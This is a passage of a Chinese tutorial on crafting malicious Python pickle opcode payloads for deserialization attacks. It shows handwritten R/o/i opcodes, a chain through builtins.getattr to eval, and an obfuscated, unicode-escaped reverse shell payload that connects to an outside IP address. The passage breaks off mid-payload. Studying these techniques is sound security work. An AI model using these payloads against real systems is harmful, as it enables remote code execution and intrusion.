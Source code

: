 因为`s`的作用是从堆栈中弹出三个值，一个字典，一个键和值。键/值条目是添加到字典，它被推回到堆栈上，所以前面需要添加一个字典和一个键：
```text
b'''(S'ba'  
S'ss'  
dS'sdasda'  
(cos  
system  
V'\u0073\u0068\u0020\u002d\u0069\u0020\u003e\u0026\u0020\u002f\u0064\u0065\u0076\u002f\u0074\u0063\u0070\u002f\u0031\u0033\u0039\u002e\u0032\u0032\u0034\u002e\u0031\u0033\u0030\u002e\u0031\u0038\u0033\u002f\u0031\u0030\u0030\u0030\u0032\u0020\u0030\u003e\u0026\u0031'  
os.'''
```
## 手写opcode
三种print的方法：
```python
# __import__("builtins").print('a', 'b')

R = b'''cbuiltins
print
(S'a'
S'b'
tR.
'''

o = b'''(cbuiltins
print
S'a'
S'b'
o.
'''

i = b'''(S'a'
S'b'
ibuiltins
print
.
'''
```

例：执行系统命令：
`builtins.getattr(builtins, 'eval')("__import__('os').system('pwd')")`
用到`c`指令导入的有`builtins.getattr`和`builtins`，但pickle不能直接获取`builtins`一级模块，所以`builtins`不能直接导入，需要用：
`builtins.getattr(builtins.dict, 'get')(builtins.globals(), 'builtins')`获取。
组合得到：
`builtins.getattr(builtins.getattr(builtins.dict, 'get')(builtins.globals(), 'builtins'), 'eval')("__import__('os').system('pwd')")`
分层编写opcode：
最内层`function("__import__('os').system('pwd')")`
```text
b'''(
S'__import__('os').system('pwd')'  
o.  
'''
```
然后是最外层的`builtins.getattr`
```text
b'''(
///////
(cbuiltins  
getattr  
arg1  
S'eval'  
o  
///////
```